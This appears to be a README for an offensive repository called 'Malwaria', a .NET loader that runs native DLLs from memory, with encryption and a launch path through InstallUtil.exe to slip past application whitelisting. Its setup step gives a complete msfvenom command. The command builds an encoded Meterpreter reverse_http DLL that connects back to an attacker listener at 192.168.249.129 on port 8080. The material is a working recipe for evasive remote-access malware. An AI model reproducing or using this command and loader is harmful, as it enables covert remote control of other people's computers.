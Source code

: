 # Malwaria
Execute Native DLL from .NET 

Based on https://github.com/Scavanger/MemoryModule.net

Added Crypto Support

Added Ability To Execute From Resource

Added Ability to be launched via InstallUtil.exe


Rough Prototype

1. Create The DLL:

<Embedded Sample>
./msfvenom -p windows/meterpreter/reverse_http -e x86/shikata_ga_nai -i 3 -f dll  -a x86 LHOST=192.168.249.129 LPORT=8080 > msf.dll

2. Add DLL To Project

3. Compile and Execute 


